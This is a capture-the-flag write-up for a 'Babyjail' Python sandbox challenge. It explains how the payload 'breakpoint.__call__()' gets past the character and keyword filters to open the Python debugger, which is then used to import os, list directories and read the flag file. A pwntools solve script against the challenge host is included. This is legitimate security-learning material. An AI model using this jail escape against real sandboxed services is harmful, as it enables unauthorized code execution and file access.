




## PwnSec CTF 2025 - Babyjail() Write-up



### Step 1: Analyzing the Challenge Source Code

The challenge provides a Python script that acts as a restricted code execution environment (a "Python jail"). It prompts for input code, applies several filters, and if it passes, evaluates it using `eval(code)`.

Key restrictions:
- Only lowercase letters (a-z), `_`, `.`, `(`, `)` are allowed.
- Forbidden substrings include common builtins like `print(`, `open(`, and words like `import`, `os`, `system`, `flag`.
- Code length limited to 21 characters.
- A regex prevents function calls with alphanumeric arguments directly.

Our goal is to bypass these and read the flag, likely in `flag.txt`.

### Step 2: Bypassing Restrictions to Enter the Debugger

To escape the jail, we craft code that passes filters but drops into a Python debugger (PDB). The payload `"breakpoint.__call__()"` works:
- Length: 21 characters.
- Uses `__call__()` to invoke `breakpoint()` without the forbidden `breakpoint(` substring.
- The regex is bypassed because the empty `()` doesn't contain alphanumerics.

We use pwntools to connect to the remote server and send this payload after the "code > " prompt.



This enters PDB mode, giving us a shell-like interface.

### Step 3: Importing Modules and Exploring the File System

In PDB, we use the `!` prefix to execute Python statements:
1. Import `os`: `!import os`
2. List current directory: `!print(os.listdir('.'))`

This reveals files including `flag.txt`.



We confirm the flag is in the current directory or root (listings show `['root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag.txt', 'app']`).

### Step 4: Reading the Flag File

Still in PDB, read the flag:
- `!print(open('/flag.txt').read())` or `!print(open('flag.txt').read())`

The server outputs the flag content.



Quit PDB with `q` to close the connection.

### Step 5. Solution code `solve.py`

```python
from pwn import *

HOST = "daf652130c66c828.chal.ctf.ae"
io = remote(host=HOST, port=443, ssl=True, sni=HOST)
io.sendlineafter("code > ", "breakpoint.__call__()")

# Wait for initial pdb output
io.recvuntil("->None\n")

# Import os
io.sendline("!import os")
io.recvuntil("(Pdb) ")

# List current directory
io.sendline("!print(os.listdir('.'))")
dir_output = io.recvuntil("(Pdb) ")
print("Current directory:\n", dir_output.decode())

# List root directory
io.sendline("!print(os.listdir('/'))")
root_output = io.recvuntil("(Pdb) ")
print("Root directory:\n", root_output.decode())

# Try to read /flag.txt
io.sendline("!print(open('/flag.txt').read())")
flag_txt_output = io.recvuntil("(Pdb) ")
print("Content of /flag.txt:\n", flag_txt_output.decode())

# Try to read /flag
io.sendline("!print(open('/flag').read())")
flag_output = io.recvuntil("(Pdb) ")
print("Content of /flag:\n", flag_output.decode())

# Quit pdb
io.sendline("q")

io.close()
```
### Flag
`flag{e61c23a1c735eefb}`